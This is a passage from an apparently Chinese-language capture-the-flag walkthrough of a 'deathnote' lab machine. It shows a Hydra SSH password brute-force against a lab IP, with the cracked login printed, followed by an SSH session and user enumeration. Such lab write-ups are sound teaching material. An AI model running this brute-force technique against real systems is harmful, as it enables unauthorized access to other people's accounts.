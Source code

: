 ![image-20231109143754361](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091437560.png)

内容拿下来，继续用hydra爆破一下看看：

```shell
┌──(v4ler1an㉿kali)-[~/Documents/tmp]
└─$ hydra -L user.txt -P password.txt 172.16.86.145 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-11-09 01:38:55
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 430 login tries (l:10/p:43), ~27 tries per task
[DATA] attacking ssh://172.16.86.145:22/
[STATUS] 283.00 tries/min, 283 tries in 00:01h, 148 to do in 00:01h, 15 active
[22][ssh] host: 172.16.86.145   login: l   password: death4me
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-09 01:40:28

```

比较幸运，爆破出来一个`l/death4me`，使用这个用户名密码登录ssh。

在用户目录下发现一个user.txt，内容如下：

```shell
l@deathnote:~$ id
uid=1000(l) gid=1000(l) groups=1000(l),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
l@deathnote:~$ ls
user.txt
l@deathnote:~$ cat user.txt
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++.<<++.>>+++++++++++.------------.+.+++++.---.<<.>>++++++++++.<<.>>--------------.++++++++.+++++.<<.>>.------------.---.<<.>>++++++++++++++.-----------.---.+++++++..<<.++++++++++++.------------.>>----------.+++++++++++++++++++.-.<<.>>+++++.----------.++++++.<<.>>++.--------.-.++++++.<<.>>------------------.+++.<<.>>----.+.++++++++++.-------.<<.>>+++++++++++++++.-----.<<.>>----.--.+++..<<.>>+.--------.<<.+++++++++++++.>>++++++.--.+++++++++.-----------------.
```

这是Brainfuck编码，直接去解码：

![image-20231109144309458](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311091443686.png)

好吧，看起来是没什么用的信息。估计要跟这个kria挂钩一下。

看看还有什么用户：

```shell
l@deathnote:~$ cd /home
l@deathnote:/home$ ls
kira  l
l@deathnote:/home$ ls kira/
kira.txt
l@deathnote:/home$ cat kira/kira.txt
cat: kira/kira.txt: Permission denied
```
